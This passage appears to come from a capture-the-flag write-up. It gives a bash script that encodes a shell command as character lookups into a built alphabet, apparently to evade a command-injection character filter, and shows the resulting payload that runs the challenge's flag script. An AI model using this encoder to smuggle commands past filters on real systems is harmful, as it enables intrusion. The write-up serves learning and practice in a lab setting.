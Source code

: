 ```python
    main(create_tmp_dir())
```

So I was sure it could be done "easier".
After checking `env`, I found out that there was a variable named REMOTE_HOST that held the IP connected to the box.
So that's what I came up with:

```bash
#!/bin/bash
comando="$*"
REMOTE_HOST=1.2.3.4 # mocking variable content inside the box
A=ABCDEFGHIJKLMNOPQRSTUVWXYZ B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/}
echo -n 'A=ABCDEFGHIJKLMNOPQRSTUVWXYZ;B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/};'

while read -n1 char; do
        (( ${#char} != 1 )) && { print+=" "; echo -n " "; continue; }
        for (( i=0; i<=${#B}; i++ )); do
                [ "${B:$i:1}" == "$char" ] && { echo -n "\${B:$i:1}"; break;}
                (( i == ${#B} )) && { echo "faltou $char"; exit; }
        done
done <<< "$comando"
```

```
./convert2.sh /printflag.sh B4sh_br0TH3rs
A=ABCDEFGHIJKLMNOPQRSTUVWXYZ;B=$A${A,,}0123456789_/${REMOTE_HOST//[0-9]/};${B:63:1}${B:41:1}${B:43:1}${B:34:1}${B:39:1}${B:45:1}${B:31:1}${B:37:1}${B:26:1}${B:32:1}${B:64:1}${B:44:1}${B:33:1} ${B:1:1}${B:56:1}${B:44:1}${B:33:1}${B:62:1}${B:27:1}${B:43:1}${B:52:1}${B:19:1}${B:7:1}${B:55:1}${B:43:1}${B:44:1}
```

<img width="722" alt="image" src="https://user-images.githubusercontent.com/2973929/234144048-423e3a2c-0ed6-4fdd-9a27-620927876c5b.png">




